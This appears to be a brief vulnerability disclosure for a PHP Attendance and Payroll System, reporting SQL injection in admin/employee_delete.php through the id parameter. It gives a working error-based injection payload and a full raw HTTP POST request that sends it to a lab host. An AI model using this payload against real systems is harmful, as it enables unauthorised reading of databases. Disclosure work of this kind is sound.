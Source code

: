 Attendance and Payroll System v1.0 - SQL injection

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\employee_delete.php has SQL injection

Payload: id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159218492-e90c3568-0e87-4ca1-b39f-d49871f1fd28.png)

```sql
POST /apsystem/admin/employee_delete.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/employee.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=7' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=
```

![image](https://user-images.githubusercontent.com/54017627/159218815-1a8d1f24-e6e5-470f-bc9a-b5fc467ce110.png)

![image](https://user-images.githubusercontent.com/54017627/159218897-0200ec17-f2a2-41d4-9dd8-53d49102d1a7.png)
